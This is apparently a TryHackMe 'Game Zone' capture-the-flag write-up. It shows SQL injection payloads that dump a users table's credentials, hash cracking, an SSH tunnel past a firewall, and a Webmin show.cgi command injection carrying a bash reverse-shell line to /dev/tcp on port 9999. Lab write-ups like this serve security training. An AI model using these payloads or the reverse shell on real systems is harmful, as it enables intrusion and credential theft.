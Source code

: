 ```yaml
---
layout: solution
category: TryHackMe
contest_code: Basic_Exploitation
contest_name: Basic Exploitation
problem_code: GAME_ZONE
problem_name: Game Zone
comments: false
tags: SQLi RCE
date: 2022-01-30
---
```


### A rust scan was use to conduct a speed scan on the IP and pipe the open ports to conduct a nmap scan. From what it shows, ports 22 and 80 are open.

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Game%20Zone/rustscan1.png)

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Game%20Zone/rustscan2.png)

<br ><br >


### Upon visiting the site, it shows me a game zone web page which is also a login page

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Game%20Zone/web1.png)

<br ><br >


### After attempting a basic SQL Injection, it logged me in

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Game%20Zone/login1.png)

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Game%20Zone/portal.png)

<br ><br >


### Knowing this site is vulnerable to SQLi, we are able to extract all the reviews. However these are not useful, so next we can attempt to extract something interesting in the database
### We can either do it manually or use SQLMAP

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Game%20Zone/sqli1.png)

<br ><br >


<h3 style="color:aqua;">‎[Method 1]: From what it looks like, there are 3 columns --> ID (Hidden), Title & Review. Thus we can craft the following syntax to list all table names from information_schema.tables </h3>

```
' AND FALSE UNION SELECT null, table_name, null FROM information_schema.tables;#
```

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Game%20Zone/sqli2.png)

<p style="color:orange;">We see an interesting table called users</p>

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Game%20Zone/sqli3.png)

<br ><br >


<h3 style="color:aqua;">‎[Method 1]: The next query is crafted to retrieve column names from the table "users".  From the result we can see that the credentials of users are stored </h3>

```
' AND FALSE UNION SELECT null, column_name, null FROM information_schema.columns WHERE table_name = 'users';#
```

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Game%20Zone/sqli4.png)

<br ><br >


<h3 style="color:aqua;">‎[Method 1]: To list the creds, we can craft this simple SQL query and finally we got credentials of the user agent47 </h3>

```
' AND FALSE UNION SELECT null, username, pwd FROM users;#
```

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Game%20Zone/sqli5.png)

<br ><br >


<h3 style="color:darkorchid;">‎[Method 2]: In order to use SQLMAP to obtain credentials, we first need to intercept the request using Burp Suite and save it into a file for it to be used by SQLMAP for authentication </h3>

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Game%20Zone/burpsuite.png)

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Game%20Zone/save.png)

<br ><br >


<h3 style="color:darkorchid;">‎[Method 2]: Next when we ran SQLMAP, we got credentials of the user agent47 </h3>

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Game%20Zone/sqlmap.png)

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Game%20Zone/sqlmap_crack.png)

<br ><br >


### We can determine this hash type by doing a lookup at online tools. It shows that this is a sha256 

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Game%20Zone/hash.png)

<br ><br >


### After saving the hash in a file, I used hashcat to crack the credential of user47. 

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Game%20Zone/hashcat.png)

<br ><br >


### Using the cracked credentials, we are able to authenticate as user47 from SSH.

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Game%20Zone/ssh.png)

<br ><br >


### When list all listening connections, we see that port 10000 is open

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Game%20Zone/netstat.png)

<p style="color:orange;">When attempting to connect to it, we are getting connection refused. This could probably mean there is a firewall blocking our access to that port</p>

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Game%20Zone/ncat1.png)

<br ><br >


### We would be able to bypass the firewall by using SSH Port Forward

<p style="color:orange;">Since we can have SSH access to the vulnerable server, we could use the following command to create a link to the server on by accessing 127.0.0.1:9000 on our side from serverIP:10000</p>

```
ssh -L 9000:127.0.0.1:10000 agent47@$IP -fN
```

<p style="color:orange;">By doing so, we now can access the service on port 9000 locally</p>

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Game%20Zone/ncat2.png)

<p style="color:orange;">From a Nmap scan, it tells us it’s a web service - webmin</p>

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Game%20Zone/nmap.png)

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Game%20Zone/login2.png)

<br ><br >


### By using agent47 credentials, we are able to login to webmin

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Game%20Zone/webmin.png)

<br ><br >


### Running a Searchsploit for this version shows us that it is vulnerable to RCE by running /file/show.cgi

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Game%20Zone/searchsploit.png)

<br ><br >


### Even though we can use Metasploit to get a shell, I'll try and refrain from suing Metasploit because it will be better if we understand how the exploit works.

<p style="color:orange;">After understanding how the exploit works,  we can use the following query</p> `/file/show.cgi/bin/<5 or more - random chars of alphabetical & numerical>|<command>|`

<p style="color:orange;">If I am not wrong, the random characters is used to make a unique file thus below will be my final URL syntax to get a reverse shell</p>
```
/file/show.cgi/bin/g6s7t|bash -c 'exec bash -i &>/dev/tcp/10.11.21.149/9999 <&1'|
```

<p style="color:orange;">Before running that I'll have to open a Ncat listener and only after executing the URL syntax, got me a shell</p>

![Image](https://raw.githubusercontent.com/DJShankyShoe/Website/master/assets/Platforms/TryHackMe/Game%20Zone/exploit.png)
